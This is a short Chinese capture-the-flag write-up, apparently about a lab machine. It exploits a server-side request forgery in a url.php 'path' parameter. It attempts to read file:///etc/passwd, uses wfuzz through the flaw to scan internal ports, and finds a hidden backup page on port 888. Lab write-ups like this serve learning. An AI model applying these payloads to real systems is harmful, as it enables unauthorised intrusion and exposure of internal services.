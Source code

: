 ```
使用这个私人的web浏览器匿名在网络冲浪，请不要滥用它。
```
- Trying
```
python -m SimpleHTTPServer
ifconfig
在本地开启服务器，查看本地ip。
```
尝试用浏览器上的该功能访问下本地，是否成功。
输入`http://本地ip：8000`
浏览器跳转到一个地址`http://10.10.10.55:60000/url.php?path=http://本地ip:8000`
成功访问客户端本地地址。

- Trying

然后尝试ssrf，提交`file:///etc/passwd`
返回`try harder `
尝试File FIlE  ,同样的返回结果。说明目标机可能用正则表达式限制了file这个字符。

- Trying
尝试`http://localhost:60000`  返60000端口上的正常页面。
因为端口扫描那一步**客户端访问都是302重定向**，需要登陆才能访问，于是我们通过60000端口上的“搜索”功能，绕过对客户端的限制。让服务器替我们获取想要的信息。

# wfuzz
- 这是一个web扫描软件
可以用`wfuzz -h` 查看使用方式
我们使用下列参数，扫描服务器开放的端口
`wfuzz -c -z range,1-65535 http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ`

图片中，2 Ch是响应的字符串，访问后发现没有任何有价值的东西，于是我们忽略它。
`wfuzz -c -z range,1-65535 --hl=2 http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ`
扫描后，我们得到了非2 Ch的响应结果。
看到了很多端口信息，因为**客户端nmap扫描是远程访问**，有 防火墙等等，所以在这里会得到更加详细的（在远程扫描不到的）端口信息。
-  trying
一个一个访问这些开放了的端口，`http://10.10.10.55:60000/url.php?path=http://localhost:端口`
在888端口，找到了一个备份页面backup。

- Trying

`http://10.10.10.55:60000/url.php?path=http://localhost:888/?doc=backup`

![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/05-25-07/7.PNG)
